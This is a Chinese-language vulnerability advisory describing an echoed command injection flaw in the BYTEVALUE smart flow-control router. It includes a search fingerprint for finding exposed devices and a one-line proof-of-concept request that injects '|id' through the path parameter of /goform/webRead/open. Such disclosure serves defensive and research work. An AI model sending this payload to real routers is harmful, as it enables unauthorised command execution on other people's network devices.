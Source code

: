 # 百为通达 智能流控路由器 open 远程命令执行漏洞

## 漏洞描述

BYTEVALUE 百为流控路由器是一款追求带宽利用率的多功能路由器。百为智能流控路由器 /goform/webRead/open 路由存在有回显的命令注入漏洞。

## 漏洞影响

<a-checkbox checked>百为通达 智能流控路由器</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"BYTEVALUE 智能流控路由器"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1697716809379-86fcce2c-7964-4db8-811d-1fe2afa6eb67.png)

验证POC

```php
GET /goform/webRead/open/?path=|id HTTP/1.1
Host:
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1697716903116-72154798-e582-4d63-aa18-116685eeae4e.png)